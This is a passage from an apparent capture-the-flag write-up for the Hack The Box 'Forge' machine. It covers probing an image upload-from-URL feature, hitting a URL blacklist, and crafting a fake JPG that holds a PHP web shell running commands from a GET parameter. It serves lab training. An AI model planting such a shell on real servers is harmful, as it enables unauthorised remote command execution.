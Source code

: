 
Nothing interesting there and the source code doesn't reveal anything either. We do have a link to upload an image:

![forge-upload-link](/assets/images/2021-10-24-12-10-36.png)

I tried clicking **Upload from url** and putting [http://admin.forge.htb](http://admin.forge.htb) in but got this:

![forge-url-blacklist](/assets/images/2021-10-23-16-46-50.png)

## Malicious File

So next I created a fake jpg to test for command execution:

```text
┌──(root💀kali)-[~/htb/forge]
└─# cat test.php.jpg
GIF89a;
<?php
$cmd=$_GET['cmd'];
system($cmd);
?>
```
